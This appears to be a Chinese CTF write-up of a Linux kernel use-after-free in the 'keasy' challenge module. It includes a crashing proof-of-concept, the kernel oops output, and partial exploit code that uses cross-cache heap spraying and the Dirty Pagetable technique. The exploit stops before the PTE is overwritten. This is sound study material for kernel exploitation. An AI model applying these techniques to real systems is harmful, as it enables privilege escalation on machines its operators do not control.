





# CTF Kernel UAF Write

> Link:https://ptr-yudai.hatenablog.com/entry/2023/12/08/093606#/

# 0x01.缓解措施
KASLR, SMAP, SMEP, and KPTI 全部开启
```shell
#!/bin/sh
qemu-system-x86_64 \
    -kernel bzImage \
    -cpu qemu64,+smep,+smap,+rdrand \
    -m 4G \
    -smp 4 \
    -initrd rootfs.cpio.gz \
    -hda flag.txt \
    -append "console=ttyS0 quiet loglevel=3 oops=panic panic_on_warn=1 panic=-1 pti=on page_alloc.shuffle=1 kaslr" \
    -monitor /dev/null \
    -nographic \
    -no-reboot \
    -gdb tcp::12345
```

# 0x02.源码审计

定义了 ioctl 处理程序的内核模块正在系统上运行。该处理程序定义为以下函数：
```c
static long keasy_ioctl(struct file *filp, unsigned int cmd, unsigned long arg) {
	long ret = -EINVAL;
	struct file *myfile;
	int fd;

	if (!enabled) {
		goto out;
	}
	enabled = 0;

    myfile = anon_inode_getfile("[easy]", &keasy_file_fops, NULL, 0);

    fd = get_unused_fd_flags(O_CLOEXEC);
    if (fd < 0) {
        ret = fd;
        goto err;
    }

    fd_install(fd, myfile);

	if (copy_to_user((unsigned int __user *)arg, &fd, sizeof(fd))) {
		ret = -EINVAL;
		goto err;
	}

	ret = 0;
    return ret;

err:
    fput(myfile);
out:
	return ret;
}4
```

它创建一个名为 [easy] 的匿名文件，并为其分配一个文件描述符。一旦分配了文件描述符，该数字将被复制到用户态缓冲区。 该功能只能在启动后调用一次*2。

> 注：这里由于没有上锁，所以可以通过 race condition 多次触发，但是这里没有必要。还有就是 fput 的行为是将 file->f_count 减一，只有当 file->f_count 为 0 时，file 才会被释放

# 0x03.漏洞成因

如果在 fd_install 分配文件描述符后 copy_to_user 失败，则执行将转到 err 并调用 fput。  fput 减少文件的引用计数。 在这种情况下，计数器将变为零，因为匿名文件未共享，并且为该文件分配的结构将被释放。

这意味着如果 copy_to_user 失败，则会发生释放后使用，因为文件本身在文件描述符在用户空间中处于活动状态时已被释放。

# 0x04.验证BUG

编写POC代码

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <unistd.h>
void fatal(const char *msg) {
  perror(msg);
  exit(1);
}
int main() {
  // Open vulnerable device
  int fd = open("/dev/keasy", O_RDWR);
  if (fd == -1)
    fatal("/dev/keasy");
  // Get dangling file descriptor
  int ezfd = fd + 1;
  if (ioctl(fd, 0, 0xdeadbeef) == 0)
    fatal("ioctl did not fail");
  // Use-after-free
  char buf[4];
  read(ezfd, buf, 4);
  return 0;
}

```

编译POC为静态可执行程序

```shell
gcc poc.c -o poc --static
```

使用`tools/packaging_script.sh`的脚本将根目录重新打包

```shell
root@dppzuw0t7qpab:~/kernel_research/tools# ./packaging_script.sh ~/kernel_research/ctf/m0leCon_CTF_Finals/keasy/challenge/rootfs.cpio.gz ~/kernel_research/ctf/m0leCon_CTF_Finals/keasy/challenge/poc_rootfs.cpio.gz ~/kernel_research/ctf/m0leCon_CTF_Finals/keasy/solved-by-smile/poc
```

修改`challenge`文件夹下的`run.sh`根镜像的名称为`poc_rootfs.cpio.gz`

```shell
#!/bin/sh
qemu-system-x86_64 \
    -kernel bzImage \
    -cpu qemu64,+smep,+smap,+rdrand \
    -m 4G \
    -smp 4 \
    -initrd poc_rootfs.cpio.gz \
    -hda flag.txt \
    -append "console=ttyS0 quiet loglevel=3 oops=panic panic_on_warn=1 panic=-1 pti=on page_alloc.shuffle=1 kaslr" \
    -monitor /dev/null \
    -nographic \
    -no-reboot \
    # -gdb tcp::12345
```

根路径下运行`poc`程序，触发`UAF`漏洞(空指针引用)

```shell
Good luck... 🤓
sh: can't access tty; job control turned off
~ $ poc
[   14.919463] BUG: kernel NULL pointer dereference, address: 00000000
[   14.919708] #PF: supervisor read access in kernel mode
[   14.919708] #PF: error_code(0x0000) - not-present page
[   14.919708] PGD 800000012bad0067 P4D 800000012bad0067 PUD 12bad506 
[   14.919708] Oops: 0000 [#1] PREEMPT SMP PTI
[   14.919708] CPU: 0 PID: 125 Comm: poc Tainted: G           O      3
[   14.919708] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996),4
[   14.919708] RIP: 0010:selinux_file_permission+0x9f/0x1a0
[   14.919708] Code: c0 74 1e 4d 85 e4 0f 84 f9 00 00 00 4d 01 ec 41 0
[   14.919708] RSP: 0018:ffffb3208039fde0 EFLAGS: 00000246
[   14.919708] RAX: 0000000000000000 RBX: ffff9555a019a200 RCX: 000000
[   14.919708] RDX: 0000000000000000 RSI: 0000000000000000 RDI: ffff90
[   14.919708] RBP: 0000000000000004 R08: ffff9555a0204740 R09: 000000
[   14.919708] R10: 0000000000000000 R11: ffffffffb37ed740 R12: ffff98
[   14.919708] R13: 0000000000000010 R14: ffff955580445110 R15: 000001
[   14.919708] FS:  0000000001278880(0000) GS:ffff9555bbc00000(0000) 0
[   14.919708] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   14.919708] CR2: 0000000000000000 CR3: 000000012b868000 CR4: 000000
[   14.919708] Call Trace:
[   14.919708]  <TASK>
[   14.919708]  ? __die_body+0x5f/0xb0
[   14.919708]  ? page_fault_oops+0x29d/0x3c0
[   14.919708]  ? copy_user_enhanced_fast_string+0x27/0x50
[   14.919708]  ? do_user_addr_fault+0x54e/0x5f0
[   14.919708]  ? expand_downwards+0x326/0x3e0
[   14.919708]  ? exc_page_fault+0x5d/0xa0
[   14.919708]  ? asm_exc_page_fault+0x22/0x30
[   14.919708]  ? __cfi_selinux_file_permission+0x10/0x10
[   14.919708]  ? selinux_file_permission+0x9f/0x1a0
[   14.919708]  security_file_permission+0x36/0x60
[   14.919708]  vfs_read+0xa0/0x2c0
[   14.919708]  ? call_rcu+0xe0/0x250
[   14.919708]  ksys_read+0x69/0xd0
[   14.919708]  do_syscall_64+0x52/0xa0
[   14.919708]  ? exit_to_user_mode_prepare+0x2a/0x80
[   14.919708]  entry_SYSCALL_64_after_hwframe+0x64/0xce
```

漏洞利用的难点在于，UAF 发生在专用的 slab 缓存 [1] 上，而不是通用的 slab 缓存上。文件结构使用名为 files_cache 的专用 slab 缓存进行分配

```shell
root@dppzuw0t7qpab0cq:~# cat /proc/slabinfo | grep files_cache
files_cache          690    690    704   23    4 : tunables    0    0    0 : slabdata     30     30      0
```

因此，与使用 kmalloc 分配的对象不同，文件以外的对象在释放后使用后通常不会重叠，这使得漏洞利用变得困难。

> 如何控制 struct file 的分配与释放：即如何稳定的堆喷 struct file?
> 
> 这个比较简单，打开/关闭文件就可以控制 struct file 的分配/释放

> 如何堆喷 pte：即如何分配页表页面?
>
> 利用 mmap 申请大量匿名页面即可；当向访问这些匿名页面时就会在页表项中填充物理地址，即效果就是堆喷 pte，而页表页面的分配也是通过 buddy system 分配的。

> 如何使得页表页面占据 victim slab page?
> 
> 这里利用 cross cache attack 手法，详细参考CVE-2022-29582 An io_uring vulnerability 先让 buddy system 回收 victim slab
> 然后堆喷 pte，其会从 buddy system 中分配页表页面，这里就大概率就会拿到 victim slab


## 0x05.跨缓存攻击(Cross-Cache Attack)
> 常见的跨缓存攻击：Dirty Cred [2] ，Dirty Pagetable

可以使用一种名为跨缓存攻击的利用技术来利用专用缓存上发生的堆漏洞。 有几种与跨缓存相关的攻击，例如 Dirty Cred [2] 和 Dirty Pagetable。

跨缓存攻击的原理很简单，我来解释一下针对Use-after-Free的攻击。

首先，我们喷射专用缓存中分配的对象，如下图①和②所示。



其次，我们释放 UAF 对象，如 ③ *3 所示。
最后，如果我们释放每个喷射的对象，那么该slab页面也将被释放，因为该slab缓存中的每个对象都不再使用。

Linux 中的伙伴系统管理页面，释放的页面可以在以后用于不同的目的。 因此，我们可以用与文件完全不同的结构来重叠UAF文件对象。

我们将覆盖 Dirty Cred 攻击中用于管理进程权限的 cred 结构。 然而，我们需要一些其他的攻击，因为这次的目标是文件结构。

## 0x05.Dirty Pagetable
我使用了一种名为 Dirty Pagetable 的技术来解决这个挑战。

正如 Dirty Cred 将 cred 结构设置为攻击目标一样，Dirty Pagetable 将页表设置为攻击目标。

在x86-64 Linux中，通常使用4级页表来将虚拟地址转换为物理地址。 脏页表针对的是 PTE（页表条目），它是物理内存之前的最后一级。 在Linux中，当需要新的PTE时，也会使用Buddy System来分配PTE的页面。

因此，我们可以在悬空文件指针所在的同一页上分配一个PTE。 下图描述了这种情况*4。



以下代码将 UAF 对象与 PTE 重叠。 记得将CPU数量限制为1，以便使用同一CPU的slab缓存，因为这次进程是在多线程环境中运行的。

```C
void bind_core(int core) {
  cpu_set_t cpu_set;
  CPU_ZERO(&cpu_set);
  CPU_SET(core, &cpu_set);
  sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
}
...
int main() {
  // 定义文件喷射的数组
  int file_spray[N_FILESPRAY];

  // 定义页喷射的数组
  void *page_spray[N_PAGESPRAY];

  // Pin CPU (important!)
  // 仅使用同一CPU
  bind_core(0);

  // 打开有问题的文件
  int fd = open("/dev/keasy", O_RDWR);
  if (fd == -1)
    fatal("/dev/keasy");
  // Prepare pages (PTE not allocated at this moment)
  // 准备页面（PTE此时未分配）
  for (int i = 0; i < N_PAGESPRAY; i++) {
    page_spray[i] = mmap((void*)(0xdead0000UL + i*0x10000UL),
                         0x8000, PROT_READ|PROT_WRITE,
                         MAP_ANONYMOUS|MAP_SHARED, -1, 0);
    if (page_spray[i] == MAP_FAILED) fatal("mmap");
  }
  puts("[+] Spraying files...");
  // Spray file (1)
  for (int i = 0; i < N_FILESPRAY/2; i++)
    if ((file_spray[i] = open("/", O_RDONLY)) < 0) fatal("/");
  // Get dangling file descriptorz
  int ezfd = file_spray[N_FILESPRAY/2-1] + 1;
  if (ioctl(fd, 0, 0xdeadbeef) == 0) // Use-after-Free
    fatal("ioctl did not fail");
  // Spray file (2)
  for (int i = N_FILESPRAY/2; i < N_FILESPRAY; i++)
    if ((file_spray[i] = open("/", O_RDONLY)) < 0) fatal("/");
  puts("[+] Releasing files...");
  // Release the page for file slab cache
  for (int i = 0; i < N_FILESPRAY; i++)
    close(file_spray[i]);
  puts("[+] Allocating PTEs...");
  // Allocate many PTEs (page fault)
  for (int i = 0; i < N_PAGESPRAY; i++)
    for (int j = 0; j < 8; j++)
      *(char*)(page_spray[i] + j*0x1000) = 'A' + j;
  getchar();
  return 0;
}
```

fput 释放之前的文件结构：



PTE喷射完成后，我们会发现同一个地址上分配了一个类似PTE的数据：



其中一个入口指向下面的物理内存，在这里我们可以找到我们写入的数据，这意味着PTE被分配给喷射的页面之一。



理想情况下，我们希望覆盖这个 PTE，并使用户态虚拟地址指向内核态物理地址。 我们如何覆盖 PTE 取决于易受攻击的对象。 让我们考虑一下文件结构的情况。